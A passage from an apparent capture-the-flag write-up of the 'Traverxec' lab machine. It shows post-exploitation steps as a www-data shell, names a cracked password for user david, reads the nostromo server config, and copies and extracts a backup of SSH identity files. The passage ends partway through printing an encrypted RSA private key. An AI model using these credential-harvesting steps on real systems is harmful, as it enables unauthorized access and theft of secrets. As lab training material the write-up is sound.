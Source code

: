 Looks like the password for `david` is `Nowonly4me`.


After exploring the box for a bit, I found this:

```bash
www-data@traverxec:/var/nostromo/conf$ cat nhttpd.conf
# MAIN [MANDATORY]

servername              traverxec.htb
serverlisten            *
serveradmin             david@traverxec.htb
serverroot              /var/nostromo
servermimes             conf/mimes
docroot                 /var/nostromo/htdocs
docindex                index.html

# LOGS [OPTIONAL]

logpid                  logs/nhttpd.pid

# SETUID [RECOMMENDED]

user                    www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess                .htaccess
htpasswd                /var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons                  /var/nostromo/icons

# HOMEDIRS [OPTIONAL]

homedirs                /home
homedirs_public         public_www
```

Using a bit of intuition, I tried to `cd /home/david/public_www` and succeeded, even though `cd /home/david/ && ls` failed.

```bash
www-data@traverxec:/home/david/public_www/protected-file-area$ ls
backup-ssh-identity-files.tgz
```

Looks handy. Let's extract this to `/tmp`.

```bash
www-data@traverxec:/home/david/public_www/protected-file-area$ cd /tmp
www-data@traverxec:/tmp$ cp /home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz .
www-data@traverxec:/tmp$ mkdir data
www-data@traverxec:/tmp$ tar xzvf backup-ssh-identity-files.tgz -C /tmp/data
www-data@traverxec:/tmp$ cd data/home/david/.ssh/
www-data@traverxec:/tmp/data/home/david/.ssh$ ls
authorized_keys  id_rsa  id_rsa.pub
www-data@traverxec:/tmp/data/home/david/.ssh$ cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,477EEFFBA56F9D283D349033D5D08C4F

seyeH/feG19TlUaMdvHZK/2qfy8pwwdr9sg75x4hPpJJ8YauhWorCN4LPJV+wfCG
tuiBPfZy+ZPklLkOneIggoruLkVGW4k4651pwekZnjsT8IMM3jndLNSRkjxCTX3W
KzW9VFPujSQZnHM9Jho6J8O8LTzl+s6GjPpFxjo2Ar2nPwjofdQejPBeO7kXwDFU
RJUpcsAtpHAbXaJI9LFyX8IhQ8frTOOLuBMmuSEwhz9KVjw2kiLBLyKS+sUT9/V7
```